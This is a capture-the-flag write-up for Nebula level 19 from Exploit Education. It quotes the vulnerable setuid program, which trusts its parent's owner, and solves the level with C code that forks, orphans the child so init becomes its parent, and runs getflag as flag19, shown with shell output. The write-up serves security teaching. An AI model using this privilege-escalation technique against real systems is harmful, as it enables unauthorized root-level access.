

# Nebula - [LEVEL 19](https://exploit.education/nebula/level-19/)

Level Description:



```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

# Nebula - [LEVEL 19](https://exploit.education/nebula/level-19/) - Solution

As we can see, the binary checks if we are running as ```root``` PID.

On Linux system, If we are creating a child process (```fork()```) from the parent process and then kill the parent process before the child process dies - the "new" parent of the child process will be the parent of ```/sbin/init``` process which is ```root```:
```console
level19@nebula:/tmp/level17$ ps -ef | grep init
root         1     0  0 12:27 ?        00:00:00 /sbin/init
```

The ```/sbin/init``` program (also called init) coordinates the rest of the boot process and configures the environment for the user. When the init command starts, it becomes the parent or grandparent of all of the processes that start up automatically on the system ([Reference](https://web.mit.edu/rhel-doc/3/rhel-rg-en-3/s1-boot-init-shutdown-process.html)).

So we can solve this challenge by the following ```C``` code:
```c
#include <unistd.h>

int main(int argc, char **argv, char **envp){

        if(!fork()){
            printf("Child proccess");
            sleep(3); //Let the parent "time" to die
            setresuid(geteuid(),geteuid(),geteuid());
            char *arguments[] = {"/bin/sh", "-c", "getflag > /tmp/gf19", NULL};
            execve("/home/flag19/flag19", arguments, envp);


        }
        printf("Parent proccess");
        return 0;
}
```

On success, ```fork()``` returns the PID of the child process is in the parent, and 0 is returned in the child.

Let's compile and run it:
```console
level19@nebula:/tmp/level19$ gcc exploit.c -o exploit
level19@nebula:/tmp/level19$ ./exploit
level19@nebula:/tmp/level19$ ls -ltr /tmp/gf19
-rw-rw-r-- 1 flag19 level19 59 2022-01-13 22:32 /tmp/gf19
level19@nebula:/tmp/level19$ cat /tmp/gf19
You have successfully executed getflag on a target account
```
